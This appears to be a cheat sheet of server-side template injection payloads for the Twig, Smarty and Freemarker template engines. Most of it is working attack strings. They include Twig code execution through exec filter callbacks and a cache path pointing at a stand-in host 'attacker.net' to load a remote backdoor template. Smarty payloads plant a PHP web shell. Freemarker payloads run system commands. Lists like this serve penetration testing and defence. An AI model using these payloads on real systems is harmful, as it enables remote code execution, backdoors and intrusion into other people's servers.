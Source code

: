 ## Twig

### Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
```

### Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

## Smarty

```python
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

## Freemarker

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`

### Code execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```
